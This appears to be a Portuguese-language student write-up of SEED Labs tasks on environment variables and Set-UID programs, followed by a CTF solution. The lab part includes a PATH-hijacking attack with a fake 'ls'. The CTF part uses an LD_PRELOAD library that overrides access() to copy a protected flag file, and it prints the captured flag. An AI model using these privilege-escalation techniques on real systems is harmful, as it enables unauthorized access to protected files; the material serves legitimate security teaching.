







# Semana 4

## SEED Labs – Environment Variable and Set-UID Program

### Task 1

Começamos por usar o comando `env` para dar print às variáveis de ambiente.



Depois, tentámos criar uma nova variável:

``` bash
export HELLO ="Hello!"
```

E verificamos que existia usando o `env` mais uma vez.



### Task 2

Compilámos o ficheiro `myprintenv.c` duas vezes. Na primeira vez, pedimos ao processo filho para dar print às variáveis de ambiente e colocámos o seu output no ficheiro `file`. Na segunda vez, pedimos ao processo pai para dar print às variáveis de ambiente e guardamos o seu output no ficheiro `file1`. Comparámos, então, a diferença entre os dois ficheiros:



Concluímos, então, visto que não há diferença entre os dois ficheiros, que as variáveis de ambiente são, de facto, herdadas pelo processo filho.

### Task 3

Compilámos o seguinte ficheiro `mymenv.c`:

``` c
#include <unistd.h>

extern char **environ;

int main()
{
  char *argv[2];

  argv[0] = "/usr/bin/env";
  argv[1] = NULL;

  execve("/usr/bin/env", argv, NULL);  

  return 0 ;
}
```

Depois de o correr a primeira vez, mudámos a invocação do `execve()` para o seguinte:
``` c
execve("/usr/bin/env", argv, environ);  
```

Voltámos então a compilar e corremos novamente.



Como o terceiro argumento do `execve()` serve para passar as variáveis de ambiente do programa a ser invocado, quando este é `NULL`, não apresenta nenhuma variável de sistema. Quando este é substituido por um vetor que contém essas variáveis, já passa a apresentá-las.

### Task 4

Compilámos o seguinte ficheiro `systemenv.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
  system("/usr/bin/env");
  return 0;
}
```

Ao correr, verificamos que, de facto, as variáveis de ambiente são apresentadas.



### Task 5

Compilámos o seguinte ficheiro `printallenv.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;
int main() {
  int i = 0;
  while(environ[i] != NULL){
    printf("%s\n", environ[i]);
    i++;
  }
}
```

Em seguida, alterarámos o dono do programa para `root` e tornámo-lo um programa Set-UID. Também definimos 3 variáveis de ambiente.

``` bash
sudo chown root printallenv
sudo chmod 4755 printallenv

export PATH=/home/daniel/Documents/uni/fsi
export LD_LIBRARY_PATH=/home/daniel/Documents/uni
export COOL=IAMSOCOOL
```

Por fim, ao correr o `printallenv`, reparámos que, no meio das outras variáveis de ambiente, só estavam 2 das que definimos, sendo a `LD_LIBRARY_PATH` aquele que estava em falta.

```
PATH=/home/daniel/Documents/uni/fsi
COOL=IAMSOCOOL
```


### Task 6

Compilámos o seguinte ficheiro `systemls.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
  system("ls");
  return 0;
}
```

E, depois de alterar o dono do programa para `root` e torná-lo um programa Set-UID, verificámos que este corria corretamente. 



Agora, iremos criar um programa `malicious.c`:

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
  printf("I am evil.\n");
  return 0;
}
```

Vamos aproveitar do facto de que, se não for passado o path completo do ficheiro ao `system()`, este irá percorrer os diretórios da variável de ambiente `PATH` em busca do mesmo. Portanto, vamos adicionar um diretório ao `PATH`:

``` bash
export PATH=/home/daniel:$PATH 
```

E vamos mover o nosso código malicioso para esse diretório, com o nome `ls`. Verificamos etntão que este será executado, quando corrermos o `systemls` denovo.



## CTF - Linux Environment

O objetivo deste desafio CTF era capturar a flag contida no diretório `flag`, para o qual não tínhamos permissão de acesso. Uma vez que o sistema estava em modo "read only", foi necessário localizar o diretório `tmp`.

``` bash
cd ../../tmp
```
Ao ler e completar a Tarefa 7 do Lab desta semana, aprendemos que é possível sobrescrever funções da library libc. Para tal, temos primeiro de criar uma "dynamic linked library" do comando `access`.

``` c
#include <stdio.h>
#include <stdlib.h>
int access(const char *pathname, int mode) {
    system("/bin/cat /flags/flag.txt > /tmp/flag");
    return 0;
    }
```

Este programa, ao qual demos o nome de `access.c`, será usado para substituir a função `access` quando o script do administrador for executado novamente.

O `access.c` executa `system()`, no qual utilizamos o comando `cat` para redirecionar o conteúdo que deveria ser escrito em `/flags/flags.txt` para o novo ficheiro `flag`, localizado no diretório `tmp`. Ao criar este ficheiro, também alteramos as suas permissões de forma a conceder permissões de escrita, leitura e execução a qualquer utilizador/grupo/outros.

``` bash
touch flag
chmod 777 flag
```

Após criar o ficheiro `flag` e o programa `access.c`,compilamos este da seguinte maneira:

``` bash
gcc -fPIC -g -c access.c 
gcc -shared -o libaccess.so.1.0.1 access.o -lc
```
Mesmo tendo criado uma `dynamic linked library` e connectado à `C library` usando `-lc`, também é necessário adicionar a seguinte variável de ambiente:

``` bash
echo "LD_PRELOAD=/tmp/libaccess.so.1.0.1" > env
```
Esta variável de ambiente, `LD_PRELOAD` faz com que ao executar o script, relendo todas as livrarias, esta seja a primeira a ser lida.

É possível verificar se esta variável foi criada ao executar o comando `cat env`. Dessa forma, concluímos os passos necessários para obter a flag. Restava apenas esperar que o script fosse executado novamente para obter a flag.

Observamos que quando o script era executado, a variável de ambiente desaparecia do `env`, o que indicava que a flag já estava no ficheiro `flag` no diretório `tmp`. Assim, conseguimos obter a seguinte flag.


```
flag{b9cda820a8be213b709eeb1aa2f4725f}
```

